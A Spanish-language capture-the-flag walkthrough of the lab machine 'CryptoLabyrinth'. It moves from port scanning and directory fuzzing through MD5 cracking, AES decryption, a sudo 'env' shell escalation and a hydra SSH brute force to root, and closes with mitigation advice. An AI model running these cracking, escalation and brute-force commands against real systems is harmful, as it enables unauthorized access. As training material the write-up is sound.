### Información General

| Campo             | Detalle                                                   |
| ----------------- | --------------------------------------------------------- |
| Plataforma        | TheHackersLabs                                            |
| Máquina           | CryptoLabyrinth                                           |
| IP                | 192.168.241.198                                           |
| Sistema operativo | Linux Debian 12 (inferido del paquete `deb12` de OpenSSH) |
| Dificultad        | Facil/Media                                               |
| Categorías        | Enumeración web, criptografía, escalada de privilegios    |
| Fecha             | Noviembre 2026                                            |

### Resumen del Ataque

La máquina expone un servidor Apache con la página por defecto de Debian. Un directorio oculto (`/hidden/`) contiene archivos de pistas, hashes MD5 de posibles contraseñas de `bob` y un archivo cifrado con AES, `alice_aes.enc`. Con una pista de la página de inicio se reconstruye la contraseña de `bob`, que permite entrar por SSH. Desde `bob`, un `sudo` mal configurado permite cambiar a `alice`, y un archivo accesible solo para `alice` contiene un patrón que, combinado con fuerza bruta sobre SSH, da acceso como `root`.

### Técnicas Usadas

- Escaneo de puertos con Nmap (SYN scan y detección de versiones)
- Fuzzing de directorios con Gobuster
- Análisis de hashes MD5 y crackeo con diccionarios generados con Crunch
- Descifrado de archivos AES-256-CBC con OpenSSL
- Enumeración post-explotación (`sudo -l`, `.bash_history`, búsqueda de archivos)
- Abuso de `sudo` con `/usr/bin/env` (entrada de GTFOBins)
- Fuerza bruta sobre SSH con Hydra

### Desarrollo

1. Escaneo de puertos

```
sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn -oN port 192.168.241.198
```



2. Detección de versiones

```
nmap -p 22,80 -sC -sV -oN allport 192.168.241.198
```



#### 3. Página web

Al visitar aparece la plantilla por defecto de Apache. 

```
http://192.168.241.198/
```



En el código fuente hay un comentario:



Este fragmento parece parcial y se guarda para más adelante.

4. Fuzzing de directorios

```
gobuster dir -u http://192.168.241.198/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,md,txt -t 125
```



5. Contenido de `/hidden/`

```
http://192.168.241.198/hidden/
```



Hay posibles usuarios: `bob` y `alice`. Se descargan todos los archivos:

```
wget -r -np -nH --cut-dirs=2 --reject "index.html*" http://192.168.241.198/hidden/
```

```
cd hidden
ls
```



6. Lectura de pistas

```
cat pista_aes.txt
```



```
cat numeros_suerte.txt
```



```
cat importante_pista_alice.txt
```



```
cat clue_bob.txt
```



```
cat clue_aes.txt
```



**Nota sobre leads descartados:** `clue_bob.txt` habla de una clave “fragmentada”, pero no fue necesaria para avanzar. Los archivos `bob_salt*.txt` y `clue_bob.txt` tampoco se usaron.

#### 7. Crackeo de hashes de `bob`

Se identifican cuatro hashes que se crackean con diccionarios conocidos:

```bash
bob_password1.hash => e10adc3949ba59abbe56e057f20f883e => 123456
bob_password2.hash => c378985d629e99a4e86213db0cd5e70d => chocolate
bob_password3.hash => 0d107d09f5bbe40cade3de5c71e9e9b7 => letmein
bob_password4.hash => d8578edf8458ce06fbc5bb76a58c5ca4 => qwerty
bob_password5.hash => 93ad6b16ba90629960e76a2c718ff4a5 => Fallo al crackear
```

El hash `bob_password5` no cae con diccionarios comunes. Partiendo del fragmento `2LWxmDsW0**` del código fuente, se genera un diccionario con Crunch sustituyendo los asteriscos por caracteres alfanuméricos:

```bash
crunch 11 11 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -t 2LWxmDsW0@@ -o wordlist.txt
```

```bash
john -w:wordlist.txt bob_password5.hash --format=Raw-MD5
```



8. Descifrado de `alice_aes.enc`

```
file alice_aes.enc
```



```
xxd alice_aes.enc | head
```



```
cat numeros_suerte.txt
```



El cabecera `Salted__` confirma que se trata de OpenSSL. La clave sale de `numeros_suerte.txt`:

```
openssl enc -d -aes-256-cbc -salt -pbkdf2 -in alice_aes.enc -k 'supercomplexkey!' -out alice.txt
```

```
 cat alice.txt              
superSecurePassword! 
```

Credenciales obtenidas:

```
ssh > bob : 2LWxmDsW0AE
alice superSecurePassword!
```

9. Acceso como `bob`

```
ssh bob@192.168.241.198  
```

```
bob@TheHackersLabs-CryptoLabyrinth:~$ cat users.txt 
```



#### 10. Enumeración en `bob` y leads descartados

Revisando `.bash_history` aparecen comandos de exploración previa, incluido un intento de `sudo -u alice` y varias búsquedas en `/tmp`, `/opt` y `/mnt` sin resultado útil. Se descartan estos caminos:

```
bob@TheHackersLabs-CryptoLabyrinth:~$ cat .bash_history 
```



Este historial muestra que alguien ya intentó patrones similares al de `bob`. Además, el patrón `2LWx*DsW0A*` aparece aquí, lo que sugiere que el archivo `/mnt/.secreto.txt` es relevante.

11. Análisis de `/mnt`

```
bob@TheHackersLabs-CryptoLabyrinth:~$ cd /mnt
bob@TheHackersLabs-CryptoLabyrinth:/mnt$ ls -la
```



```
bob@TheHackersLabs-CryptoLabyrinth:/mnt$ cat .secreto.txt
```



El archivo es legible solo por `alice`. Se revisa `sudo -l`:

```
bob@TheHackersLabs-CryptoLabyrinth:/mnt$ sudo -l
```





Según GTFOBins, `/usr/bin/env` permite lanzar una shell como el usuario objetivo:

```
bob@TheHackersLabs-CryptoLabyrinth:/mnt$ sudo -u alice /usr/bin/env /bin/bash
```

```
alice@TheHackersLabs-CryptoLabyrinth:/mnt$ cd /home/alice/
```

12. Flag de usuario

```
alice@TheHackersLabs-CryptoLabyrinth:~$ cat user.txt 
```



#### 13. Escalada a `root`

Como `alice`, se puede leer el archivo protegido:

```
alice@TheHackersLabs-CryptoLabyrinth:~$ cat /mnt/.secreto.txt 
2LWx*DsW0A*
```



El patrón `2LWx*DsW0A*` tiene dos posiciones desconocidas. Se genera un diccionario con Crunch y se usa Hydra contra SSH para el usuario `root`:

```bash
crunch 11 11 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -t 2LWx@DsW0A@ -o wordlist2.txt
```

```
hydra -l root -P wordlist2.txt ssh://192.168.241.198 -t 64
```



```
ssh root@192.168.241.198
```

```
root@TheHackersLabs-CryptoLabyrinth:~# cd /root
root@TheHackersLabs-CryptoLabyrinth:~# cat root.txt 
```



### Lecciones Aprendidas

- Los comentarios en el código fuente pueden filtrar fragmentos de contraseñas. Un patrón parcial bien elegido reduce mucho el espacio de búsqueda.
- Las claves de cifrado no deben guardarse junto a los datos cifrados. Aquí la clave de AES estaba en un archivo público del mismo directorio.
- `sudo` con `NOPASSWD` sobre intérpretes o utilidades como `env` equivale a acceso total al usuario objetivo.
- Los archivos de historial (`.bash_history`) pueden revelar patrones de contraseñas y rutas útiles.
- La fuerza bruta contra SSH es lenta, pero se vuelve viable cuando el espacio de búsqueda está muy acotado por pistas previas.

### Medidas de Mitigación

- Eliminar comentarios con información sensible del código HTML en producción.
- No exponer directorios con archivos de respaldo, hashes o pistas (`Options -Indexes` en Apache y revisar `DocumentRoot`).
- Almacenar las claves de cifrado fuera del servidor web y con permisos restringidos.
- Eliminar las entradas `NOPASSWD` de `sudo` sobre `env`, shells o intérpretes. Si es imprescindible, restringir el comando con rutas absolutas y argumentos fijos.
- Usar contraseñas con alta entropía (no basadas en patrones ni en diccionarios) y aplicar límites de intentos de autenticación (`fail2ban`, `MaxAuthTries`).
- Deshabilitar el login directo de `root` por SSH (`PermitRootLogin no`).
- Revisar y limpiar `.bash_history` en cuentas de servicio.
